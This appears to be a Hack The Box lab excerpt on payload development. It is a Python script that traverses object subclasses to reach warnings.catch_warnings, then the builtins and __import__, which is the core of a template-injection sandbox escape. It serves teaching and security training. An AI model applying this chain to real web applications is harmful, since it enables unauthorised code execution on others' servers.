 ### Payload Development

```python
import flask

# Initialize the string
s = 'HTB'

# Get type of the string
print(type(s))  # <class 'str'>

# Get class of the string
print(s.__class__)  # <class 'str'>

# List all attributes and methods of the string
print(dir(s))

# Get class of the class of the string
print(s.__class__.__class__)  # <class 'type'>

# Get base class of the string's class
print(s.__class__.__base__)  # <class 'object'>

# Get subclasses of the base class
base_subclasses = s.__class__.__base__.__subclasses__()
print(base_subclasses)

# Get Method Resolution Order and subclasses
mro_subclasses = s.__class__.mro()[1].__subclasses__()
print(mro_subclasses)

# List all subclasses with their indices
for i in range(len(mro_subclasses)):
    print(i, mro_subclasses[i].__name__)

# Function to search for a specific subclass by name
def searchfunc(name):
    x = s.__class__.mro()[1].__subclasses__()
    for i in range(len(x)):
        fn = x[i].__name__
        if fn.find(name) > -1:
            print(i, fn)

# Search for a subclass containing the name 'warning'
searchfunc('warning')
# Output should show: 215 catch_warnings (the exact index might differ)

# Access the `warnings.catch_warnings` class
y = mro_subclasses[215]
print(y)  # <class 'warnings.catch_warnings'>

# Access the built-in functions via `warnings.catch_warnings`
builtins = y()._module.__builtins__
print(builtins)

# Print all built-in functions containing 'import'
for i in builtins:
    if i.find('import') > -1:
        print(i, builtins[i])
# Output should include: __import__ <built-in function __import__>

```
